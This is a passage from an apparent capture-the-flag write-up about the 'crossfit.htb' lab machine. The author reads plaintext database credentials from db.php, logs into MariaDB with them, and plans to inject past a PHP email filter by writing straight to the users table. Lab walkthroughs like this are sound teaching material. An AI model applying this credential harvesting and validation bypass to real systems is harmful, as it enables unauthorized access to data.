 

    if(filter_var($email, FILTER_VALIDATE_EMAIL))



[This filter](https://www.w3schools.com/php/filter_validate_email.asp)
will check for non-email characters, which I need to inject. Luckily, I
can just write to the DB. `db.php` has the connection info:



    <?php
    $dbhost = "localhost";
    $dbuser = "crossfit";
    $dbpass = "oeLoo~y2baeni";
    $db = "crossfit";
    $conn = new mysqli($dbhost, $dbuser, $dbpass, $db);
    ?>



Those creds allow me to connect:



    hank@crossfit:/var/www/gym-club$ mysql -u crossfit -poeLoo~y2baeni crossfit
    Reading table information for completion of table and column names
    You can turn off this feature to get a quicker startup with -A

    Welcome to the MariaDB monitor.  Commands end with ; or \g.
    Your MariaDB connection id is 3032
    Server version: 10.3.22-MariaDB-0+deb10u1 Debian 10

    Copyright (c) 2000, 2018, Oracle, MariaDB Corporation Ab and others.

    Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.

    MariaDB [crossfit]>



The `users` table is empty:



    MariaDB [crossfit]> select * from users;
    Empty set (0.000 sec)



If I go to `http://gym-club.crossfit.htb/jointheclub.php` and sign up,
my email is now in the table:



    MariaDB [crossfit]> select * from users;
    +----+-------------------+
    | id | email             |
    +----+-------------------+
    | 52 | 0xdf@crossfit.htb |
    +----+-------------------+
    1 row in set (0.001 sec)
